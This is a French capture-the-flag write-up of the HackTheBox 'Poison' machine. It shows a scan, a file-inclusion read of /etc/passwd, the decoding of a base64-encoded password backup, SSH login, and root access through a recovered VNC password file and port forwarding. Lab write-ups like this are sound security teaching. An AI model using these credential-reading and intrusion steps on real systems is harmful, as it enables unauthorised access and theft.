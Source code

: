 ```yaml
---
title: "Solution du CTF Poison de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Nitro
-----

Ce moment où tu fais le compte des CTF résolus sur [HackTheBox](https://www.hackthebox.eu/) et que tu es en retard sur l'écriture des writeup pour seulement... 6 machines :D  

Allez ! Le pwnage ne prend pas de vacances ! On est pas des manches, on se remonte les manches !  

Level 1
-------

C'est parti pour le sempiternel scan de ports :  

```
Nmap scan report for 10.10.10.84
Host is up (0.027s latency).
Not shown: 47967 filtered ports, 17554 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http?
|_http-comments-displayer: Couldn't find any comments.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-traceroute: ERROR: Script execution failed (use -d to debug)
| http-useragent-tester: 
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
5802/tcp open  vnc-http-2?
5803/tcp open  vnc-http-3?
5804/tcp open  unknown
5805/tcp open  unknown
5902/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5902
5903/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5903
5904/tcp open  vnc         VNC (protocol 3.8)
5905/tcp open  vnc         VNC (protocol 3.8)
6002/tcp open  X11:2?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6003/tcp open  X11:3?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6004/tcp open  X11:4?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6005/tcp open  X11:5?
|_x11-access: ERROR: Script execution failed (use -d to debug)
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Hmmm X11 ? Ça fait loooooongtemps que j'ai pas joué avec ça mais on se prépare mentalement au cas où :p  

Nmap y voit du *Fortinet* mais d'après la classification sur HackTheBox on sait à l'avance que l'on a affaire à du FreeBSD :)  

Sur la page d'index du serveur web se trouve un formulaire permettant d'exécuter un script PHP parmi plusieurs choix existants :  

![Index page of Poison CTF from HackTheBox](/assets/img/htb/poison_index.png)

Ce script est largement vulnérable puisque si l'on saisit */etc/passwd* dans le champ de texte on obtient le contenu du fichier qui révèle la présence d'un utilisateur nommé *charix*.  

Parmi les scripts déjà présents le fichier *listfiles.php* liste le contenu du dossier courant (la racine web) et indique la présence du fichier *pwdbackup.txt* que voici :  

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Il suffit de lancer un interpréteur Python, mettre cette chaîne dans une variable et faire une boucle de décodage base64 jusqu'à une exception de décodage arrive :  

```
>>> while True:
...   s = b64decode(s).decode()
...
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
  File "/usr/lib/python3.6/base64.py", line 87, in b64decode
    return binascii.a2b_base64(s)
binascii.Error: Incorrect padding
>>> s
'Charix!2#4%6&8(0'
```

Ce mot de passe nous permet de nous connecter via ssh (et oui déjà !) :  

```
devloop@kali:~$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Aug 20 18:07:20 2018 from :9
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

---snip---

Edit /etc/motd to change this login announcement.
Need to quickly empty a file? Use ": > filename".
        -- Dru <genesis@istar.ca>
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

Et d'obtenir le flag utilisateur : *eaacdfb2d141b72a589233063604209c*   

Level 2
-------

Dans le home de l'utilisateur se trouve une archive protégée par mot de passe (*secret.zip*) ouvrable avec le même password que le SSH.  

Cela nous donne un fichier *secret* dont le contenu est le suivant :  

```
$ hexdump -C secret
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
```

Et dans le dossier *.vnc* de l'utilisateur on trouve aussi un fichier passwd :  

```
$ hexdump -C passwd
00000000  60 d7 57 ef 13 4f ff 41                           |`.W..O.A|
```

C'est toujours un peu déstabilisant de se retrouver sur du BSD en raison des options des utilitaires qui ne sont pas tout à fait les même. Là on avait en plus à gérer un shell csh. Ainsi pour lister les exécutables set-uid il fallait à titre d'exemple lancer la commande suivante :  

```bash
(find / -user root -type f -perm -u+s > /dev/tty) > & /dev/null
```

Plutôt que de fouiller dans les pages de manuel les bonnes options c'est parfois plus simple d'utiliser une commande alternative. Exemple pour remplacer netstat -lntp :  

```
charix@Poison:~ % sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
www      httpd      913   4  tcp4   *:80                  *:*
www      httpd      911   4  tcp4   *:80                  *:*
www      httpd      907   4  tcp4   *:80                  *:*
www      httpd      906   4  tcp4   *:80                  *:*
www      httpd      905   4  tcp4   *:80                  *:*
www      httpd      904   4  tcp4   *:80                  *:*
www      httpd      902   4  tcp4   *:80                  *:*
www      httpd      900   4  tcp4   *:80                  *:*
www      httpd      852   4  tcp4   *:80                  *:*
root     sendmail   729   3  tcp4   127.0.0.1:25          *:*
www      httpd      716   4  tcp4   *:80                  *:*
root     httpd      675   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```

La recherche classique sur les fichiers n'ayant rien remonté on remarque la présence d'un Xvnc dans les process avec l'utilisation d'un fichier *passwd* présent dans un dossier *.vnc* :  

```
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten...
```

On peut essayer de s'y connecter avec l'un des fichiers que l'on a récupéré. Pour cela on fait d'abord une redirection de port via SSH :  

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Il suffit alors d'utiliser *xvncviewer* en spécifiant le display. le principe est le suivant : les numéros de displays commencent à 5900 donc le 1 correspondra à notre port forwardé 5901 (souvenirs, souvenirs...)  

On s'en tire alors avec la commande *xvncviewer -passwd secret 127.0.0.1:1* qui nous amène face à un terminal root qui traînait par là :  

![Poison HackTheBox CTF final root flag with xvncviewer](/assets/img/htb/poison_root_flag.png)

Game over
---------

[One more in the bank !](https://www.youtube.com/watch?v=Rre3zgL7eMk) Next one...

*Published September 08 2018 at 18:46*
